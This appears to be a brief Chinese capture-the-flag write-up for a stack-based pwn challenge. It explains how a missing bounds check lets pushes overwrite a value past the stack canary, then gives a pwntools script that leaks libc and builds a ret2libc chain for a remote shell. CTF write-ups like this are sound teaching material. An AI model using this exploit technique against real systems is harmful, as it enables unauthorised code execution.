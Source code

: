 ```c
    case 'p':
        v3 = stack_pop(v6);
        printf("Pop -> %d\n", v3);
        goto LABEL_9;
```

源码和反汇编是有区别的。反汇编的代码缺少判断，`s.n`可以小于或等于`0`。通过操作可以绕过`canary`直接修改栈里的某个值，绕过`canary`的保护。

 修改`stack[i]=j`（对应`data[i-1]`）的值，步骤：

```
clear stack
pop
push i-1   ---> stack.n=i-1
push j     ---> data[i-i]=j
```

后面就是构造常规的`rop`链获取`shell`。

```python
import re
from pwn import *

patt1=re.compile(b'Pop -> (.*)\nCmd >>\n')

#context.log_level="debug"
p=remote("ctf.hackme.quest",7716)
libc = ELF("./libc-2.23.so.i386")
offset=247

def pop():
    p.sendline(b'p')
    recv_data=p.recvuntil(b"Cmd >>\n")
    return patt1.findall(recv_data)[0].decode()
def push(val):
    p.sendline(b'i '+val.encode())
    recv_data=p.recvuntil(b"Cmd >>\n")
def exit():
    p.sendline(b'x')
    p.recv()

p.recvuntil(b"Cmd >>\n")
pop()
push("93")
lib_main=int(pop())-libc.symbols['__libc_start_main']-offset


system_addr=(lib_main+libc.symbols['system'])
sh_addr=(lib_main+next(libc.search(b'/bin/sh')))

push(str(system_addr))
push('0')
push(str(sh_addr))
exit()

p.sendline(b"ls")
p.interactive()
```
